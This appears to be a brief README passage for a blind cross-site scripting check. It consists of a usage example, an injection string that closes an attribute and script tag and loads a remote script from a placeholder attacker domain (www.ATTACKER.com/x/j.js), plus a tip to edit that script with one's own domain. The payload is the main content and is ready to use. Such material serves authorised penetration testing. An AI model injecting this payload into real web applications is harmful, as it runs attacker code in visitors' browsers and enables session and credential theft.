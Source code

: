 Check for blind XSS.

Usage example:

```html
"'></script><script src=//www.ATTACKER.com/x/j.js></script>
```

PS. Please modify `j.js` by adding your domain.
